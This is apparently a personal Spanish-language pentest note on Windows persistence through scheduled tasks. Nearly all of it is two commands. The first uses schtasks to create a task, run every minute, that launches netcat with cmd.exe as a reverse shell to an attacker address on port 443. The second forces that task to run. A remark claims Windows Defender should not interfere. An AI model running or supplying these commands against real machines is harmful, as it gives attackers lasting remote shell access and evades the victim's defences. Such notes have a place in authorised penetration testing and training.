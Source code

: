 ```yaml
---
tags: [pentest]
created: 2024-12-21

---
```

---
- tags: #windows #rce #persistencia #nc #netcat #tarea #schtasks
----

## Persistencia con tareas programadas

> Podemos utilizar el comando *schtasks* para crear tareas programadas en Windows y enviar con netcat un terminal.

```Comando de Windows
schtasks /create /tn "Hola Caracola" /tr "c:\windows\temp\nc.exe -e cmd.exe 192.168.x.x 443" /sc minute /mo 1
```

**(NOTA: SE REQUIERE HABER DESCARGADO NETCAT EN LA MÁQUINA (EL DEFENDER NO DEBERÍA DE DAR PROBLEMAS))**

> Podemos forzar la ejecución con:

```Comando 
schtasks /run /tn "Hola Caracola"
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
